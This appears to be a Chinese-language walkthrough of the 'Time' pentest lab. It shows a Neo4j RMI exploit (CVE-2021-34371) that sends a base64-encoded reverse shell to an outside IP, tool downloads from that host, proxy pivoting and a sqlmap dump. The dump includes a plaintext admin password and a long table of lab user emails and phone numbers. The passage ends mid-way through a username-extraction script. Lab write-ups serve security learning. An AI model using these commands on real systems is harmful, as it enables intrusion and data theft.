





+++
title= "春秋云镜Time"
slug= "springautumn-cloudmirror-time"
description= "CVE-2021-34371、ASREPRoast攻击、SIDHistory攻击"
date= "2025-08-26T21:45:29+08:00"
lastmod= "2025-08-26T21:45:29+08:00"
image= ""
license= ""
categories= ["春秋云镜"]
tags= ["Pentest"]

+++

## flag1

先用fscan扫一下靶机`./fscan -h 39.99.225.0 -p 1-65535`

```bash
39.99.225.0:22 open
39.99.225.0:1337 open
39.99.225.0:7474 open
39.99.225.0:7473 open
39.99.225.0:7687 open
39.99.225.0:43459 open
[*] alive ports len is: 6
start vulscan
[*] WebTitle http://39.99.225.0:7474   code:303 len:0      title:None 跳转url: http://39.99.225.0:7474/browser/
[*] WebTitle http://39.99.225.0:7474/browser/ code:200 len:3279   title:Neo4j Browser
[*] WebTitle https://39.99.225.0:7473  code:303 len:0      title:None 跳转url: https://39.99.225.0:7473/browser/
[*] WebTitle https://39.99.225.0:7687  code:400 len:50     title:None
[*] WebTitle https://39.99.225.0:7473/browser/ code:200 len:3279   title:Neo4j Browser
```

7687端口开着的，Neo4j Browser，存在nday **CVE-2021-34371**  https://github.com/zwjjustdoit/CVE-2021-34371.jar

```bash
echo -n "bash -i >& /dev/tcp/8.137.148.227/9999 0>&1" | base64

java -jar ./rhino_gadget.jar rmi://39.99.225.0:1337 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC84LjEzNy4xNDguMjI3Lzk5OTkgMD4mMQ==}|{base64,-d}|{bash,-i}"
```

## flag2

搭建代理和传fscan，我们把工具放在服务器的网站根目录，然后wget去下载

```bash
cd /tmp

wget http://8.137.148.227/fscan
wget http://8.137.148.227/agent

chmod +x *
```

获得内网的信息

```bash
(icmp) Target 172.22.6.38     is alive
(icmp) Target 172.22.6.36     is alive
(icmp) Target 172.22.6.25     is alive
(icmp) Target 172.22.6.12     is alive
[*] Icmp alive hosts len is: 4
172.22.6.36:22 open
172.22.6.38:22 open
172.22.6.12:445 open
172.22.6.25:445 open
172.22.6.12:139 open
172.22.6.25:139 open
172.22.6.25:135 open
172.22.6.12:135 open
172.22.6.38:80 open
172.22.6.12:88 open
172.22.6.36:7687 open
[*] alive ports len is: 11
start vulscan
[*] NetInfo 
[*]172.22.6.25
   [->]WIN2019
   [->]172.22.6.25
[*] NetInfo 
[*]172.22.6.12
   [->]DC-PROGAME
   [->]172.22.6.12
[*] NetBios 172.22.6.25     XIAORANG\WIN2019              
[*] OsInfo 172.22.6.12  (Windows Server 2016 Datacenter 14393)
[*] NetBios 172.22.6.12     [+] DC:DC-PROGAME.xiaorang.lab       Windows Server 2016 Datacenter 14393
[*] WebTitle http://172.22.6.38        code:200 len:1531   title:后台登录
[*] WebTitle https://172.22.6.36:7687  code:400 len:50     title:None
```

- 172.22.6.38 web机器，可以后台登录？
- 172.22.6.36  已经被控
- 172.22.6.25 XIAORANG\WIN2019
- 172.22.6.12 DC-PROGAME.xiaorang.lab

搭建代理，准备控制38

```bash
nohup ./agent -bind 0.0.0.0:10010 > agent.log 2>&1 &


sudo ./proxy -selfcert -laddr "0.0.0.0:10001"

connect_agent --ip 39.99.225.0:10010

interface_list
session
autoroute

nohup ./gost -L=socks://:1080 > gost.log 2>&1 &

# 查看是否开启
ss -luntp
```


```bash
POST /index.php HTTP/1.1
Host: 172.22.6.38
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Origin: http://172.22.6.38
Referer: http://172.22.6.38/index.php
Cache-Control: max-age=0
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Content-Type: application/x-www-form-urlencoded
Content-Length: 34

username=admin&password=fadfadfadf
```

我觉得Sqlmap可以打`sqlmap -r 1.txt --dump`直接一把梭哈了

```
Database: oa_db
Table: oa_f1Agggg
[1 entry]
+----+--------------------------------------------+
| id | flag02                                     |
+----+--------------------------------------------+
| 1  | flag{b142f5ce-d9b8-4b73-9012-ad75175ba029} |
+----+--------------------------------------------+

Database: oa_db
Table: oa_admin
[1 entry]
+----+------------------+---------------+
| id | password         | username      |
+----+------------------+---------------+
| 1  | bo2y8kAL3HnXUiQo | administrator |
+----+------------------+---------------+

Database: oa_db
Table: oa_users
[500 entries]
+-----+----------------------------+-------------+-----------------+
| id  | email                      | phone       | username        |
+-----+----------------------------+-------------+-----------------+
[06:10:24] [WARNING] console output will be trimmed to last 256 rows due to large table size
| 245 | chenyan@xiaorang.lab       | 18281528743 | CHEN YAN        |
| 246 | tanggui@xiaorang.lab       | 18060615547 | TANG GUI        |
| 247 | buning@xiaorang.lab        | 13046481392 | BU NING         |
| 248 | beishu@xiaorang.lab        | 18268508400 | BEI SHU         |
| 249 | shushi@xiaorang.lab        | 17770383196 | SHU SHI         |
| 250 | fuyi@xiaorang.lab          | 18902082658 | FU YI           |
| 251 | pangcheng@xiaorang.lab     | 18823789530 | PANG CHENG      |
| 252 | tonghao@xiaorang.lab       | 13370873526 | TONG HAO        |
| 253 | jiaoshan@xiaorang.lab      | 15375905173 | JIAO SHAN       |
| 254 | dulun@xiaorang.lab         | 13352331157 | DU LUN          |
| 255 | kejuan@xiaorang.lab        | 13222550481 | KE JUAN         |
| 256 | gexin@xiaorang.lab         | 18181553086 | GE XIN          |
| 257 | lugu@xiaorang.lab          | 18793883130 | LU GU           |
| 258 | guzaicheng@xiaorang.lab    | 15309377043 | GU ZAI CHENG    |
| 259 | feicai@xiaorang.lab        | 13077435367 | FEI CAI         |
| 260 | ranqun@xiaorang.lab        | 18239164662 | RAN QUN         |
| 261 | zhouyi@xiaorang.lab        | 13169264671 | ZHOU YI         |
| 262 | shishu@xiaorang.lab        | 18592890189 | SHI SHU         |
| 263 | yanyun@xiaorang.lab        | 15071085768 | YAN YUN         |
| 264 | chengqiu@xiaorang.lab      | 13370162980 | CHENG QIU       |
| 265 | louyou@xiaorang.lab        | 13593582379 | LOU YOU         |
| 266 | maqun@xiaorang.lab         | 15235945624 | MA QUN          |
| 267 | wenbiao@xiaorang.lab       | 13620643639 | WEN BIAO        |
| 268 | weishengshan@xiaorang.lab  | 18670502260 | WEI SHENG SHAN  |
| 269 | zhangxin@xiaorang.lab      | 15763185760 | ZHANG XIN       |
| 270 | chuyuan@xiaorang.lab       | 18420545268 | CHU YUAN        |
| 271 | wenliang@xiaorang.lab      | 13601678032 | WEN LIANG       |
| 272 | yulvxue@xiaorang.lab       | 18304374901 | YU LV XUE       |
| 273 | luyue@xiaorang.lab         | 18299785575 | LU YUE          |
| 274 | ganjian@xiaorang.lab       | 18906111021 | GAN JIAN        |
| 275 | pangzhen@xiaorang.lab      | 13479328562 | PANG ZHEN       |
| 276 | guohong@xiaorang.lab       | 18510220597 | GUO HONG        |
| 277 | lezhong@xiaorang.lab       | 15320909285 | LE ZHONG        |
| 278 | sheweiyue@xiaorang.lab     | 13736399596 | SHE WEI YUE     |
| 279 | dujian@xiaorang.lab        | 15058892639 | DU JIAN         |
| 280 | lidongjin@xiaorang.lab     | 18447207007 | LI DONG JIN     |
| 281 | hongqun@xiaorang.lab       | 15858462251 | HONG QUN        |
| 282 | yexing@xiaorang.lab        | 13719043564 | YE XING         |
| 283 | maoda@xiaorang.lab         | 13878840690 | MAO DA          |
| 284 | qiaomei@xiaorang.lab       | 13053207462 | QIAO MEI        |
| 285 | nongzhen@xiaorang.lab      | 15227699960 | NONG ZHEN       |
| 286 | dongshu@xiaorang.lab       | 15695562947 | DONG SHU        |
| 287 | zhuzhu@xiaorang.lab        | 13070163385 | ZHU ZHU         |
| 288 | jiyun@xiaorang.lab         | 13987332999 | JI YUN          |
| 289 | qiguanrou@xiaorang.lab     | 15605983582 | QI GUAN ROU     |
| 290 | yixue@xiaorang.lab         | 18451603140 | YI XUE          |
| 291 | chujun@xiaorang.lab        | 15854942459 | CHU JUN         |
| 292 | shenshan@xiaorang.lab      | 17712052191 | SHEN SHAN       |
| 293 | lefen@xiaorang.lab         | 13271196544 | LE FEN          |
| 294 | yubo@xiaorang.lab          | 13462202742 | YU BO           |
| 295 | helianrui@xiaorang.lab     | 15383000907 | HE LIAN RUI     |
| 296 | xuanqun@xiaorang.lab       | 18843916267 | XUAN QUN        |
| 297 | shangjun@xiaorang.lab      | 15162486698 | SHANG JUN       |
| 298 | huguang@xiaorang.lab       | 18100586324 | HU GUANG        |
| 299 | wansifu@xiaorang.lab       | 18494761349 | WAN SI FU       |
| 300 | fenghong@xiaorang.lab      | 13536727314 | FENG HONG       |
| 301 | wanyan@xiaorang.lab        | 17890844429 | WAN YAN         |
| 302 | diyan@xiaorang.lab         | 18534028047 | DI YAN          |
| 303 | xiangyu@xiaorang.lab       | 13834043047 | XIANG YU        |
| 304 | songyan@xiaorang.lab       | 15282433280 | SONG YAN        |
| 305 | fandi@xiaorang.lab         | 15846960039 | FAN DI          |
| 306 | xiangjuan@xiaorang.lab     | 18120327434 | XIANG JUAN      |
| 307 | beirui@xiaorang.lab        | 18908661803 | BEI RUI         |
| 308 | didi@xiaorang.lab          | 13413041463 | DI DI           |
| 309 | zhubin@xiaorang.lab        | 15909558554 | ZHU BIN         |
| 310 | lingchun@xiaorang.lab      | 13022790678 | LING CHUN       |
| 311 | zhenglu@xiaorang.lab       | 13248244873 | ZHENG LU        |
| 312 | xundi@xiaorang.lab         | 18358493414 | XUN DI          |
| 313 | wansishun@xiaorang.lab     | 18985028319 | WAN SI SHUN     |
| 314 | yezongyue@xiaorang.lab     | 13866302416 | YE ZONG YUE     |
| 315 | bianmei@xiaorang.lab       | 18540879992 | BIAN MEI        |
| 316 | shanshao@xiaorang.lab      | 18791488918 | SHAN SHAO       |
| 317 | zhenhui@xiaorang.lab       | 13736784817 | ZHEN HUI        |
| 318 | chengli@xiaorang.lab       | 15913267394 | CHENG LI        |
| 319 | yufen@xiaorang.lab         | 18432795588 | YU FEN          |
| 320 | jiyi@xiaorang.lab          | 13574211454 | JI YI           |
| 321 | panbao@xiaorang.lab        | 13675851303 | PAN BAO         |
| 322 | mennane@xiaorang.lab       | 15629706208 | MEN NAN E       |
| 323 | fengsi@xiaorang.lab        | 13333432577 | FENG SI         |
| 324 | mingyan@xiaorang.lab       | 18296909463 | MING YAN        |
| 325 | luoyou@xiaorang.lab        | 15759321415 | LUO YOU         |
| 326 | liangduanqing@xiaorang.lab | 13150744785 | LIANG DUAN QING |
| 327 | nongyan@xiaorang.lab       | 18097386975 | NONG YAN        |
| 328 | haolun@xiaorang.lab        | 15152700465 | HAO LUN         |
| 329 | oulun@xiaorang.lab         | 13402760696 | OU LUN          |
| 330 | weichipeng@xiaorang.lab    | 18057058937 | WEI CHI PENG    |
| 331 | qidiaofang@xiaorang.lab    | 18728297829 | QI DIAO FANG    |
| 332 | xuehe@xiaorang.lab         | 13398862169 | XUE HE          |
| 333 | chensi@xiaorang.lab        | 18030178713 | CHEN SI         |
| 334 | guihui@xiaorang.lab        | 17882514129 | GUI HUI         |
| 335 | fuyue@xiaorang.lab         | 18298436549 | FU YUE          |
| 336 | wangxing@xiaorang.lab      | 17763645267 | WANG XING       |
| 337 | zhengxiao@xiaorang.lab     | 18673968392 | ZHENG XIAO      |
| 338 | guhui@xiaorang.lab         | 15166711352 | GU HUI          |
| 339 | baoai@xiaorang.lab         | 15837430827 | BAO AI          |
| 340 | hangzhao@xiaorang.lab      | 13235488232 | HANG ZHAO       |
| 341 | xingye@xiaorang.lab        | 13367587521 | XING YE         |
| 342 | qianyi@xiaorang.lab        | 18657807767 | QIAN YI         |
| 343 | xionghong@xiaorang.lab     | 17725874584 | XIONG HONG      |
| 344 | zouqi@xiaorang.lab         | 15300430128 | ZOU QI          |
| 345 | rongbiao@xiaorang.lab      | 13034242682 | RONG BIAO       |
| 346 | gongxin@xiaorang.lab       | 15595839880 | GONG XIN        |
| 347 | luxing@xiaorang.lab        | 18318675030 | LU XING         |
| 348 | huayan@xiaorang.lab        | 13011805354 | HUA YAN         |
| 349 | duyue@xiaorang.lab         | 15515878208 | DU YUE          |
| 350 | xijun@xiaorang.lab         | 17871583183 | XI JUN          |
| 351 | daiqing@xiaorang.lab       | 18033226216 | DAI QING        |
| 352 | yingbiao@xiaorang.lab      | 18633421863 | YING BIAO       |
| 353 | hengteng@xiaorang.lab      | 15956780740 | HENG TENG       |
| 354 | changwu@xiaorang.lab       | 15251485251 | CHANG WU        |
| 355 | chengying@xiaorang.lab     | 18788248715 | CHENG YING      |
| 356 | luhong@xiaorang.lab        | 17766091079 | LU HONG         |
| 357 | tongxue@xiaorang.lab       | 18466102780 | TONG XUE        |
| 358 | xiangqian@xiaorang.lab     | 13279611385 | XIANG QIAN      |
| 359 | shaokang@xiaorang.lab      | 18042645434 | SHAO KANG       |
| 360 | nongzhu@xiaorang.lab       | 13934236634 | NONG ZHU        |
| 361 | haomei@xiaorang.lab        | 13406913218 | HAO MEI         |
| 362 | maoqing@xiaorang.lab       | 15713298425 | MAO QING        |
| 363 | xiai@xiaorang.lab          | 18148404789 | XI AI           |
| 364 | bihe@xiaorang.lab          | 13628593791 | BI HE           |
| 365 | gaoli@xiaorang.lab         | 15814408188 | GAO LI          |
| 366 | jianggong@xiaorang.lab     | 15951118926 | JIANG GONG      |
| 367 | pangning@xiaorang.lab      | 13443921700 | PANG NING       |
| 368 | ruishi@xiaorang.lab        | 15803112819 | RUI SHI         |
| 369 | wuhuan@xiaorang.lab        | 13646953078 | WU HUAN         |
| 370 | qiaode@xiaorang.lab        | 13543564200 | QIAO DE         |
| 371 | mayong@xiaorang.lab        | 15622971484 | MA YONG         |
| 372 | hangda@xiaorang.lab        | 15937701659 | HANG DA         |
| 373 | changlu@xiaorang.lab       | 13734991654 | CHANG LU        |
| 374 | liuyuan@xiaorang.lab       | 15862054540 | LIU YUAN        |
| 375 | chenggu@xiaorang.lab       | 15706685526 | CHENG GU        |
| 376 | shentuyun@xiaorang.lab     | 15816902379 | SHEN TU YUN     |
| 377 | zhuangsong@xiaorang.lab    | 17810274262 | ZHUANG SONG     |
| 378 | chushao@xiaorang.lab       | 18822001640 | CHU SHAO        |
| 379 | heli@xiaorang.lab          | 13701347081 | HE LI           |
| 380 | haoming@xiaorang.lab       | 15049615282 | HAO MING        |
| 381 | xieyi@xiaorang.lab         | 17840660107 | XIE YI          |
| 382 | shangjie@xiaorang.lab      | 15025010410 | SHANG JIE       |
| 383 | situxin@xiaorang.lab       | 18999728941 | SI TU XIN       |
| 384 | linxi@xiaorang.lab         | 18052976097 | LIN XI          |
| 385 | zoufu@xiaorang.lab         | 15264535633 | ZOU FU          |
| 386 | qianqing@xiaorang.lab      | 18668594658 | QIAN QING       |
| 387 | qiai@xiaorang.lab          | 18154690198 | QI AI           |
| 388 | ruilin@xiaorang.lab        | 13654483014 | RUI LIN         |
| 389 | luomeng@xiaorang.lab       | 15867095032 | LUO MENG        |
| 390 | huaren@xiaorang.lab        | 13307653720 | HUA REN         |
| 391 | yanyangmei@xiaorang.lab    | 15514015453 | YAN YANG MEI    |
| 392 | zuofen@xiaorang.lab        | 15937087078 | ZUO FEN         |
| 393 | manyuan@xiaorang.lab       | 18316106061 | MAN YUAN        |
| 394 | yuhui@xiaorang.lab         | 18058257228 | YU HUI          |
| 395 | sunli@xiaorang.lab         | 18233801124 | SUN LI          |
| 396 | guansixin@xiaorang.lab     | 13607387740 | GUAN SI XIN     |
| 397 | ruisong@xiaorang.lab       | 13306021674 | RUI SONG        |
| 398 | qiruo@xiaorang.lab         | 13257810331 | QI RUO          |
| 399 | jinyu@xiaorang.lab         | 18565922652 | JIN YU          |
| 400 | shoujuan@xiaorang.lab      | 18512174415 | SHOU JUAN       |
| 401 | yanqian@xiaorang.lab       | 13799789435 | YAN QIAN        |
| 402 | changyun@xiaorang.lab      | 18925015029 | CHANG YUN       |
| 403 | hualu@xiaorang.lab         | 13641470801 | HUA LU          |
| 404 | huanming@xiaorang.lab      | 15903282860 | HUAN MING       |
| 405 | baoshao@xiaorang.lab       | 13795275611 | BAO SHAO        |
| 406 | hongmei@xiaorang.lab       | 13243605925 | HONG MEI        |
| 407 | manyun@xiaorang.lab        | 13238107359 | MAN YUN         |
| 408 | changwan@xiaorang.lab      | 13642205622 | CHANG WAN       |
| 409 | wangyan@xiaorang.lab       | 13242486231 | WANG YAN        |
| 410 | shijian@xiaorang.lab       | 15515077573 | SHI JIAN        |
| 411 | ruibei@xiaorang.lab        | 18157706586 | RUI BEI         |
| 412 | jingshao@xiaorang.lab      | 18858376544 | JING SHAO       |
| 413 | jinzhi@xiaorang.lab        | 18902437082 | JIN ZHI         |
| 414 | yuhui@xiaorang.lab         | 15215599294 | YU HUI          |
| 415 | zangpeng@xiaorang.lab      | 18567574150 | ZANG PENG       |
| 416 | changyun@xiaorang.lab      | 15804640736 | CHANG YUN       |
| 417 | yetai@xiaorang.lab         | 13400150018 | YE TAI          |
| 418 | luoxue@xiaorang.lab        | 18962643265 | LUO XUE         |
| 419 | moqian@xiaorang.lab        | 18042706956 | MO QIAN         |
| 420 | xupeng@xiaorang.lab        | 15881934759 | XU PENG         |
| 421 | ruanyong@xiaorang.lab      | 15049703903 | RUAN YONG       |
| 422 | guliangxian@xiaorang.lab   | 18674282714 | GU LIANG XIAN   |
| 423 | yinbin@xiaorang.lab        | 15734030492 | YIN BIN         |
| 424 | huarui@xiaorang.lab        | 17699257041 | HUA RUI         |
| 425 | niuya@xiaorang.lab         | 13915041589 | NIU YA          |
| 426 | guwei@xiaorang.lab         | 13584571917 | GU WEI          |
| 427 | qinguan@xiaorang.lab       | 18427953434 | QIN GUAN        |
| 428 | yangdanhan@xiaorang.lab    | 15215900100 | YANG DAN HAN    |
| 429 | yingjun@xiaorang.lab       | 13383367818 | YING JUN        |
| 430 | weiwan@xiaorang.lab        | 13132069353 | WEI WAN         |
| 431 | sunduangu@xiaorang.lab     | 15737981701 | SUN DUAN GU     |
| 432 | sisiwu@xiaorang.lab        | 18021600640 | SI SI WU        |
| 433 | nongyan@xiaorang.lab       | 13312613990 | NONG YAN        |
| 434 | xuanlu@xiaorang.lab        | 13005748230 | XUAN LU         |
| 435 | yunzhong@xiaorang.lab      | 15326746780 | YUN ZHONG       |
| 436 | gengfei@xiaorang.lab       | 13905027813 | GENG FEI        |
| 437 | zizhuansong@xiaorang.lab   | 13159301262 | ZI ZHUAN SONG   |
| 438 | ganbailong@xiaorang.lab    | 18353612904 | GAN BAI LONG    |
| 439 | shenjiao@xiaorang.lab      | 15164719751 | SHEN JIAO       |
| 440 | zangyao@xiaorang.lab       | 18707028470 | ZANG YAO        |
| 441 | yangdanhe@xiaorang.lab     | 18684281105 | YANG DAN HE     |
| 442 | chengliang@xiaorang.lab    | 13314617161 | CHENG LIANG     |
| 443 | xudi@xiaorang.lab          | 18498838233 | XU DI           |
| 444 | wulun@xiaorang.lab         | 18350490780 | WU LUN          |
| 445 | yuling@xiaorang.lab        | 18835870616 | YU LING         |
| 446 | taoya@xiaorang.lab         | 18494928860 | TAO YA          |
| 447 | jinle@xiaorang.lab         | 15329208123 | JIN LE          |
| 448 | youchao@xiaorang.lab       | 13332964189 | YOU CHAO        |
| 449 | liangduanzhi@xiaorang.lab  | 15675237494 | LIANG DUAN ZHI  |
| 450 | jiagupiao@xiaorang.lab     | 17884962455 | JIA GU PIAO     |
| 451 | ganze@xiaorang.lab         | 17753508925 | GAN ZE          |
| 452 | jiangqing@xiaorang.lab     | 15802357200 | JIANG QING      |
| 453 | jinshan@xiaorang.lab       | 13831466303 | JIN SHAN        |
| 454 | zhengpubei@xiaorang.lab    | 13690156563 | ZHENG PU BEI    |
| 455 | cuicheng@xiaorang.lab      | 17641589842 | CUI CHENG       |
| 456 | qiyong@xiaorang.lab        | 13485427829 | QI YONG         |
| 457 | qizhu@xiaorang.lab         | 18838859844 | QI ZHU          |
| 458 | ganjian@xiaorang.lab       | 18092585003 | GAN JIAN        |
| 459 | yurui@xiaorang.lab         | 15764121637 | YU RUI          |
| 460 | feishu@xiaorang.lab        | 18471512248 | FEI SHU         |
| 461 | chenxin@xiaorang.lab       | 13906545512 | CHEN XIN        |
| 462 | shengzhe@xiaorang.lab      | 18936457394 | SHENG ZHE       |
| 463 | wohong@xiaorang.lab        | 18404022650 | WO HONG         |
| 464 | manzhi@xiaorang.lab        | 15973350408 | MAN ZHI         |
| 465 | xiangdong@xiaorang.lab     | 13233908989 | XIANG DONG      |
| 466 | weihui@xiaorang.lab        | 15035834945 | WEI HUI         |
| 467 | xingquan@xiaorang.lab      | 18304752969 | XING QUAN       |
| 468 | miaoshu@xiaorang.lab       | 15121570939 | MIAO SHU        |
| 469 | gongwan@xiaorang.lab       | 18233990398 | GONG WAN        |
| 470 | qijie@xiaorang.lab         | 15631483536 | QI JIE          |
| 471 | shaoting@xiaorang.lab      | 15971628914 | SHAO TING       |
| 472 | xiqi@xiaorang.lab          | 18938747522 | XI QI           |
| 473 | jinghong@xiaorang.lab      | 18168293686 | JING HONG       |
| 474 | qianyou@xiaorang.lab       | 18841322688 | QIAN YOU        |
| 475 | chuhua@xiaorang.lab        | 15819380754 | CHU HUA         |
| 476 | yanyue@xiaorang.lab        | 18702474361 | YAN YUE         |
| 477 | huangjia@xiaorang.lab      | 13006878166 | HUANG JIA       |
| 478 | zhouchun@xiaorang.lab      | 13545820679 | ZHOU CHUN       |
| 479 | jiyu@xiaorang.lab          | 18650881187 | JI YU           |
| 480 | wendong@xiaorang.lab       | 17815264093 | WEN DONG        |
| 481 | heyuan@xiaorang.lab        | 18710821773 | HE YUAN         |
| 482 | mazhen@xiaorang.lab        | 18698248638 | MA ZHEN         |
| 483 | shouchun@xiaorang.lab      | 15241369178 | SHOU CHUN       |
| 484 | liuzhe@xiaorang.lab        | 18530936084 | LIU ZHE         |
| 485 | fengbo@xiaorang.lab        | 15812110254 | FENG BO         |
| 486 | taigongyuan@xiaorang.lab   | 15943349034 | TAI GONG YUAN   |
| 487 | gesheng@xiaorang.lab       | 18278508909 | GE SHENG        |
| 488 | songming@xiaorang.lab      | 13220512663 | SONG MING       |
| 489 | yuwan@xiaorang.lab         | 15505678035 | YU WAN          |
| 490 | diaowei@xiaorang.lab       | 13052582975 | DIAO WEI        |
| 491 | youyi@xiaorang.lab         | 18036808394 | YOU YI          |
| 492 | rongxianyu@xiaorang.lab    | 18839918955 | RONG XIAN YU    |
| 493 | fuyi@xiaorang.lab          | 15632151678 | FU YI           |
| 494 | linli@xiaorang.lab         | 17883399275 | LIN LI          |
| 495 | weixue@xiaorang.lab        | 18672465853 | WEI XUE         |
| 496 | hejuan@xiaorang.lab        | 13256081102 | HE JUAN         |
| 497 | zuoqiutai@xiaorang.lab     | 18093001354 | ZUO QIU TAI     |
| 498 | siyi@xiaorang.lab          | 17873307773 | SI YI           |
| 499 | shenshan@xiaorang.lab      | 18397560369 | SHEN SHAN       |
| 500 | tongdong@xiaorang.lab      | 15177549595 | TONG DONG       |
+-----+----------------------------+-------------+-----------------+
```

## flag3&&flag4

得到域用户名，我们写个脚本给提取出来

```bash
#!/usr/bin/env python3

def extract_usernames(filename):
    usernames = []
    with open(filename, 'r', encoding='utf-8') as f:
        lines = f.readlines()
        # 跳过表头和分隔线
        for line in lines[3:]:  # 跳过前3行（表头和分隔线）
            if '+-----+' in line:  # 跳过底部分隔线
                continue
            
            parts = line.split('|')
            if len(parts) >= 3:  # 确保行有足够的列
                email_part = parts[2].strip()  # 第二列是email (索引从1开始，所以是parts[2])
                if '@xiaorang.lab' in email_part:
                    username = email_part.split('@')[0].strip()
                    usernames.append(username)
    
    return usernames

def save_usernames(usernames, output_file='usernames.txt'):
    with open(output_file, 'w', encoding='utf-8') as f:
        for username in usernames:
            f.write(username + '\n')
    print(f'已成功提取 {len(usernames)} 个用户名并保存到 {output_file}')

if __name__ == "__main__":
    input_file = "1.txt"
    usernames = extract_usernames(input_file)
    save_usernames(usernames)
    
    # 打印前5个提取的用户名以验证
